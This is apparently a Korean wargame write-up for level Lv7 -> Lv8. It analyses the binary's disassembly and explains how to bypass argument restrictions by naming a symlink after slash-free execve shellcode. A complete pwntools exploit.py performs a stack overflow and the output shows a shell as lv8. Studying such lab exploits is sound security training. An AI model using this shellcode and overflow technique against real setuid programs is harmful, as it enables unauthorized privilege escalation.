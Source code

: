 ﻿# Lv7 -> Lv8
## lv8
gdb를 이용해 lv8 바이너리의 추가된 부분을 분석해 보면 다음과 같다.


* main + 6
```asm
   0x08048506 <+6>:	cmp    DWORD PTR [ebp+0x8],0x2
   0x0804850a <+10>:	je     0x8048523 <main+35>
   0x0804850c <+12>:	push   0x8048690
   0x08048511 <+17>:	call   0x8048410 <printf@plt>
   0x08048516 <+22>:	add    esp,0x4
   0x08048519 <+25>:	push   0x0
   0x0804851b <+27>:	call   0x8048420 <exit@plt>		; exit if (argc != 2)
   0x08048520 <+32>:	add    esp,0x4
```

드디어 argv[2]를 사용할 수 없게 막았다.
argv[1]의 길이도 0x30 이하로 제한해 우리가 사용할 수 있는것은 argv[0] 뿐이다.
argv[0]는 심볼릭 링크를 통해 조절할 수 있다.
`ln -s` 옵션을 이용해 아래의 쉘코드를 이름으로 하는 링크를 만든다.

```
"\x90"*20 + "\x66\xb8\xf0\x03\x89\xc3\x89\xc1\x31\xc0\xb0\x46\xcd\x80\x31\xc0\x50\xbe\x2e\x2e\x72\x67\x81\xc6\x01\x01\x01\x01\x56\xbf\x2e\x62\x69\x6e\x47\x57\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80"
```

쉘코드에 포함되어있는 0x2f는 아스키코드로 보면 `/` 이므로 리눅스에서 경로로 인식한다.
링크를 생성할 때 이름에 `/` 값이 들어가 있으면 안된다. 2f가 없는 쉘코드를 사용해야 한다.

## exploit.py

```python
from pwn import *
import os

context.log_level = 'debug'

argv1 = "a"*0x2c  +  "\xb0\xdf\xff\xff"
fileName = "\x90"*20 + "\x66\xb8\xf0\x03\x89\xc3\x89\xc1\x31\xc0\xb0\x46\xcd\x80\x31\xc0\x50\xbe\x2e\x2e\x72\x67\x81\xc6\x01\x01\x01\x01\x56\xbf\x2e\x62\x69\x6e\x47\x57\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80"

if not os.path.exists(fileName):
    os.system('ln -s lv8 ' + fileName)

p = process(['./' + fileName, argv1])
p.recvuntil('\n')
p.sendline('id')
p.recvuntil('\n')
p.sendline('my-pass')
p.interactive()
```
------

```
lv7@ubuntu:~$ python exploit.py 
[+] Starting local process './\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90f\xb8\xf0\x03\x89\xc3\x89\xc11\xc0\xb0F\xcd\x801\xc0P\xbe..rg\x81\xc6\x01\x01\x01\x01V\xbf.binGW\x89\xe3P\x89\xe2S\x89\xe1\xb0\x0b\xcd\x80' argv=['./\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90f\xb8\xf0\x03\x89\xc3\x89\xc11\xc0\xb0F\xcd\x801\xc0P\xbe..rg\x81\xc6\x01\x01\x01\x01V\xbf.binGW\x89\xe3P\x89\xe2S\x89\xe1\xb0\x0b\xcd\x80', 'aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa\xb0\xdf\xff\xff'] : pid 43526
[DEBUG] Received 0x31 bytes:
    00000000  61 61 61 61  61 61 61 61  61 61 61 61  61 61 61 61  │aaaa│aaaa│aaaa│aaaa│
    *
    00000020  61 61 61 61  61 61 61 61  61 61 61 61  b0 df ff ff  │aaaa│aaaa│aaaa│····│
    00000030  0a                                                  │·│
    00000031
[DEBUG] Sent 0x3 bytes:
    'id\n'
[DEBUG] Received 0x2d bytes:
    'uid=1008(lv8) gid=1007(lv7) groups=1007(lv7)\n'
[DEBUG] Sent 0x8 bytes:
    'my-pass\n'
[*] Switching to interactive mode
[DEBUG] Received 0xf bytes:
    'bothering argc\n'
bothering argc
$
```